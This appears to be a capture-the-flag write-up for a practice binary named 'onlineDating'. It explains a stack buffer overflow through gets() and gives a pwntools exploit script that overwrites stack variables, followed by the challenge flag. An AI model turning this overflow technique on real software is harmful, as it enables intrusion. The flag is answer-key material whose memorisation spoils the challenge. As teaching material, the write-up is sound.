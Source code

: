 # 🔑 Write-Up

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 56 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

payload = b'A'* 56 + b'Gerard_Pique' + b'Clara_C.' + b'TwingoOo' + b'CasioOo!'

r = process('./onlineDating')
r.sendlineafter(b'Please tell us how to update it (max 50 char):', payload)
r.interactive()
```

### 🚩 Flag 

```plain
SPRITZ{Cr4zy_DuD3}
```